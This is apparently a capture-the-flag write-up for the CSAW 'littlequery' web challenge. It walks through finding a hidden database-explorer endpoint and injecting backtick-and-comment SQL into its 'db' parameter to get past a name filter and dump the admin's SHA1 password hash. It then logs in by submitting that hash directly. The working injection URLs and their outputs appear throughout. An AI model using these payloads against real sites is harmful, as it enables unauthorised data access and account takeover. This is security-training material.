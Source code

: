 ### Points
200

### Readme
```
I've got a new website for BIG DATA analytics!
http://littlequery.chal.csaw.io
```

### Steps

0. The website has nothing than one login page. When trying to login with some dummy data like test/test; we noticed that the password field is somehow modified before the data is submitted to server.

Open the source of the page, we find that there is one javascript file at `js/login.js` that is used to handle the form data.

Open the javascript file, it contains only one function:

```
$(".form-signin").submit(function () {
    var $password = $(this).find("input[type=password]");
    $password.val(CryptoJS.SHA1($password.val()).toString());
});
```

So, we know that the input password is actually be hashed to SHA1 format before submitting (and probably saved in the same format) to server. 

We then come up with the idea, if we can know the username and hashed password, we can use that directly to login to the website without the need of finding original unhashed password. (That can be achieved pretty easily by disabling javascript in login page).

1. A quick scanning with the provided link (by some tools such as `OWASP ZAP`) result in finding a hidden file. The file is called `db_explore.php` located inside a sub-directory `api`.

2. Check the file:

<http://littlequery.chal.csaw.io/api/db_explore.php>

Resulted in:
```
Must specify mode={schema|preview}
```

3. Let's add one parameter `mode=schema` as it suggested.

<http://littlequery.chal.csaw.io/api/db_explore.php?mode=schema>

Resulted in:

```
{"dbs":["littlequery"]}
```

Looks like we have seen the database name, and it is: `littlequery`

4. What if we add one more param, such as `db=littlequery` to see if it can show us the schema of the database?

<http://littlequery.chal.csaw.io/api/db_explore.php?mode=schema&db=littlequery>

Resulted in:
```
{"tables":["user"]}
```

Exactly as we thought. It showed us that the database has one table named `user`.

5. We think inside this `user` table, there must be some columns related to `username` and `password`, let's verify that:

<http://littlequery.chal.csaw.io/api/db_explore.php?mode=schema&db=littlequery&table=user>

Resulted in:

```
{"columns":{"uid":"int(11)","username":"varchar(128)","password":"varchar(40)"}}
```

Exactly! The table has two columns, one is `username` (maximum length is 128 chars) and the other is `password` (with the maximum length is 40 characters for each value). It seems to be pretty matched with our assumption at the beginning.

6. Now, if we could see the detail content of this table, we can know that username and password in order to login to the site, then our mission will be done!

We also remember that there is one more `mode` to use is `preview`. Let's use it to see it can help us to see the content of the table:

<http://littlequery.chal.csaw.io/api/db_explore.php?mode=preview&db=littlequery&table=user>

Resulted in:

```
Database 'littlequery' is not allowed to be previewed.
```

What?! How could it be?? We cannot see the content of the database because it is not allowed to do so.

7. We try to change the database name to see what would happen:

<http://littlequery.chal.csaw.io/api/db_explore.php?mode=preview&db=anything&table=user>

Resulted in:
```
`anything`.`user` doesn't exist.
```

Note that the character "`" is added around the name of the database and the table.

8. So, we can come up with the followng two ideas:

  * Firstly, there must be a filter of database name inside the PHP source code that blocks us from requesting the `littlequery` db. So, our mission now is: How to cheat the PHP filter function that it thinks we are not requesting the `littlequery` database, but actually the SQL query later on still work as we expected (the table `user` inside `littlequery` database is still be requested).

Or, in other words, we should provide one database-name-payload to the `db` param so that it actually request directly to the table inside the database (and not the database itself).

  * Secondly, the character "`" could (hopefully) be used to fool the filter in the PHP code.

9. We try to append the table name directly to the database name, to see what happen:

<http://littlequery.chal.csaw.io/api/db_explore.php?mode=preview&db=littlequery`.`user&table=user>

(Note that the "`" will be added at the beginning and the end of `db` param value).

Resulted in:
```
`littlequery`.`user`.`user` doesn't exist.
```

Almost there. It looks like the `table` param's value is still being taken into account. 

10. Now what we need to do is to put something at the end of database name query so that it ignores everything else come after. 

That something is: two hiphen and one space characters: `-- ` (Characters used for comments in SQL)

And because the character "`" added by the PHP source code also be ignored, so we have to put it by ourselve. 

So, finally, we have to append the following characters to the `db` param: ``-- `

12. The final request will be:

<http://littlequery.chal.csaw.io/api/db_explore.php?mode=preview&db=littlequery`.`user`-- &table=user>

Or:

<http://littlequery.chal.csaw.io/api/db_explore.php?mode=preview&db=littlequery`.`user`%2d%2d%20&table=user>

Resulted in:
```
[{"uid":"1","username":"admin","password":"5896e92d38ee883cc09ad6f88df4934f6b074cf8"}]
```

Bingo! Now we can use this username/password to login to the site (with disabled Javascript) at:

<http://littlequery.chal.csaw.io/login.php>

13. After logging in, the flag is appeared right away!
```
flag{mayb3_1ts_t1m3_4_real_real_escape_string?}
``` 

### NOTE:
The same result can be achieved by using `%23` (`#`) instead of `%2d%2d%20` (`-- `).
